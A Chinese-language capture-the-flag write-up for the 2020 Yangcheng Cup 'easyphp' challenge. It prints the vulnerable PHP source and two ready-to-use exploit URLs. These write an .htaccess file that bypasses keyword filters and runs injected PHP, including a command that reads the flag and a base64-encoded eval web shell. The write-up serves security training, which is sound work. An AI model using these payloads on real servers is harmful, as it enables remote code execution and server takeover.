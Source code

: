 # 【羊城杯 2020】easyphp


# [羊城杯 2020]easyphp

## 思路
* 源码

  ```
   &lt;?php
      $files = scandir(&#39;./&#39;); 
      foreach($files as $file) {
          if(is_file($file)){
              if ($file !== &#34;index.php&#34;) {
                  unlink($file);
              }
          }
      }
      if(!isset($_GET[&#39;content&#39;]) || !isset($_GET[&#39;filename&#39;])) {
          highlight_file(__FILE__);
          die();
      }
      $content = $_GET[&#39;content&#39;];
      if(stristr($content,&#39;on&#39;) || stristr($content,&#39;html&#39;) || stristr($content,&#39;type&#39;) || stristr($content,&#39;flag&#39;) || stristr($content,&#39;upload&#39;) || stristr($content,&#39;file&#39;)) {
          echo &#34;Hacker&#34;;
          die();
      }
      $filename = $_GET[&#39;filename&#39;];
      if(preg_match(&#34;/[^a-z\.]/&#34;, $filename) == 1) {
          echo &#34;Hacker&#34;;
          die();
      }
      $files = scandir(&#39;./&#39;); 
      foreach($files as $file) {
          if(is_file($file)){
              if ($file !== &#34;index.php&#34;) {
                  unlink($file);
              }
          }
      }
      file_put_contents($filename, $content . &#34;\nHello, world&#34;);
  ?&gt; 
  ```

  在目录下，**只有index.php能够作为php解析执行**

  可以写一个.htaccess让index.php自动包含执行代码来实现我们的恶意代码执行

  * 代码审计

    访问index.php时删除所有除了index.php的文件

    ```
    $files = scandir(&#39;./&#39;); 
      foreach($files as $file) { 
        if(is_file($file)){ 
          if ($file !== &#34;index.php&#34;) { 
            unlink($file); 
          } 
        } 
      } 
    ```

    对上传内容过滤，对文件名进行了过滤

    ```
     $content = $_GET[&#39;content&#39;]; 
      if(stristr($content,&#39;on&#39;) || stristr($content,&#39;html&#39;) || stristr($content,&#39;type&#39;) || stristr($content,&#39;flag&#39;) || stristr($content,&#39;upload&#39;) || stristr($content,&#39;file&#39;)) { 
        echo &#34;Hacker&#34;; 
        die(); 
      } 
    ```

* 思路一

  向`.htaccess`文件通过`#`写入shell，并且用`auto_prepend_file`包含`.htaccess`

  但是file关键字被ban了，可以用反斜杠绕过

  结尾要用`\`处理content中的`\n`，防止与后面的Hello word进行拼接时报错

  ```
  ?filename=.htaccess&amp;content=php_value%20auto_prepend_fil%5C%0Ae%20.htaccess%0A%23%3C%3Fphp%20system(&#39;cat%20/fla?&#39;)%3B%3F%3E%5C
  ```

* 思路二

  &gt; 这个需要传参两次，相对上面一句话搞定麻烦一丢丢

  利用.htaccess文件特性，不过这次是通过设置php_value来设置preg_macth正则回溯次数

  先写入.htaccess，再直接通过php://filter伪协议写入一句话

  ```
  ?content=php_value%20pcre.backtrack_limit%200%0aphp_value%20pcre.jit%200%0a%23\&amp;f ilename=.htaccess
  ```

  ```
  ?filename=php://filter/write=convert.base64-decode/resource=.htaccess&amp;content=cGhwX3ZhbHVlIHBjcmUuYmFja3RyYWNrX2xpbWl0IDAKcG hwX3ZhbHVlIHBjcmUuaml0IDAKcGhwX3ZhbHVlIGF1dG9fYXBwZW5kX2ZpbGUgLmh0YWNjZXNzCiM8P3 BocCBldmFsKCRfR0VUWzFdKTs/Plw&amp;1=phpinfo();
  ```

## 总结
* 文件上传
* .htaccess利用

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2024%E5%81%9A%E9%A2%98-%E7%BE%8A%E5%9F%8E%E6%9D%AF-2020easyphp/  

